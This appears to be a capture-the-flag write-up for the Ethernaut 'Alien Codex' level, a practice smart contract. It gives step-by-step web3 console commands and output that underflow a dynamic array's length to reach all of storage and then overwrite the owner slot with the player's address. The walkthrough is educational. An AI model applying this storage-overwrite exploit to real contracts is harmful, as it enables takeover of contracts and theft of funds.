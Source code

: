 # Alien codex

Mission: take over owner of this contract but we no way to modify it directly because it now show how to assign value to `owner` that they inheit from Ownable.

check value of slot 0:
```javascript
await web3.eth.getStorageAt(contract.address,0)
> '0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```

Try check owner:

```javascript
await contract.owner();
> '0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272'
```

To make change at revise function, we need to enable modifier contacted:
```javascript
await contract.make_contact();
```

Verify value in slot0 again and see that first byte change from 0x..0 to be 0x..1:
```javascript
await web3.eth.getStorageAt(contract.address,0)
> '0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```
It means slot 0 have both bool 1 byte and **owner** address.
![slot0](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/slot0.JPG)

Check value of slot1:
```javascript
await web3.eth.getStorageAt(contract.address,1)
> '0x0000000000000000000000000000000000000000000000000000000000000000'
```

codex.length=0 is very small, we try underflow attack by call function retract() to open all dynamic array:
```javascript
await contract.retract();
```

Verify value at slot1 again:
```javascript
await web3.eth.getStorageAt(contract.address,1)
> '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```

from function revise(), we saw that it use codex[i],we may need to overflow slot from slot1 to slot0 
and find index of the owner that were in slot0, We want to replace value of `bytes32 _content` at the index of owner as player address.
Refer to maximum one slot hold 32 bytes mean 256 bit (1byte=8 bit)
_owner variable is located at slot 0 (address have 20 bytes), we need to change from 20bytes to 32bytes for `_content`.
See solution in [addr32bytes.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/addr32bytes.js)

Find index of owner, see solution in [callIndex.sol](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/callIndex.sol)

![index](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/index.JPG)

Replace owner address as player address:
```javascript
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938','0x000000000000000000000000176366cFD97885245fAEA72f8cB6951e52655Adf');
```

Verify that you are owner now:
```javascript
await contract.owner();
> '0x176366cFD97885245fAEA72f8cB6951e52655Adf'
```

![slot1](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Alien%20Codex/photo/slot1.JPG)

Level completed!
Difficulty 7/10

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of 2^256. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)